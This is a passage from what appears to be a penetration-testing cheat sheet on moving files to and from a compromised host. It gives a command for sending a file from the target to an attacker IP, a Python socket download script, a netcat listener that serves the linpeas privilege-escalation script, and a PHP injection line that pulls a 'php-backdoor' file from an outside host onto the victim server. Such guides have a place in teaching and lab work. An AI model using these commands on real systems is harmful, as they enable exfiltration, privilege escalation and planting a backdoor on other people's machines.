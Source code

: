 And on the target run the script:

```bash
python upload.py <your_ip> ./file_output.txt
```

The script is compatible with both Python 2.7 and 3.


### Download files

It's unlikely that you will need this, but for completeness sake, here is the same script adapted to downloading files instead:

```python
#!/usr/bin/python
# U+0A75
import socket
import sys
if (len(sys.argv) < 2):
    print("params: <ip> <filename>")
    print("listen port is 4545")
    sys.exit(0)
target = sys.argv[1]
filename = sys.argv[2]
s = socket.socket()
s.connect((target, 4545))
f = open (filename, "ab")
res = s.recv(1024)
while (res):
    f.write(res)
    res = s.recv(1024) 
s.close()
```

On your own machine start a netcat listener:
```bash
nc -q 0 -vlnp 4545 < linpeas.sh
```

On the target receive the file with the python script:
```bash
python download.py <your_ip> linpeas.sh
```

## PHP

Quite often you might gain code execution via PHP injection, but you need to download some file or another in order to gain a full shell.

Here are some functions that allow you to download files:

```html
<!-- Download file via HTTP and copy() function -->
<?php  echo copy("http://10.0.2.4/qsd-php-backdoor.php", "qsd-php-backdoor.php");  ?> 
```

